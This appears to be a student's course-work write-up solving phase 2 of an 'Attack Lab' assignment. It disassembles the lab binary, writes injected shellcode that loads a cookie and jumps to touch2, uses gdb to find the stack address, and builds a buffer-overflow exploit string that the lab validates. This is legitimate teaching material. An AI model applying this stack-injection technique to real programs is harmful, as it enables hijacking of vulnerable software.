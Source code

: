 ```yaml
---
category:
  - Course Work
date: "2022-04-23T00:00:00+08:00"
tags:
  - Attack_Lab
  - Computer_Organization_and_Architecture
title: "Attack Lab: Phase 2"
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b6a <touch2>:
...
```

###### Write File `phase-2-inject.s`

```assembly
movl $0x3a9a6c2f, %edi
pushq $0x0000000000401b6a
retq
```

###### Run

```bash
gcc -c phase-2-inject.s
objdump --disassemble phase-2-inject.o > phase-2-inject.asm
```

###### Read File `phase-2-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	bf 2f 6c 9a 3a       	mov    $0x3a9a6c2f,%edi
   5:	68 6a 1b 40 00       	pushq  $0x401b6a
   a:	c3                   	retq
```

###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) stepi
(gdb) info registers rsp
rsp            0x55668c98       0x55668c98
```

###### Write File `phase-2.txt`

```
bf 2f 6c 9a 3a
68 6a 1b 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-2.txt > phase-2.in
./ctarget -i phase-2.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch2!: You called touch2(0x3a9a6c2f)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
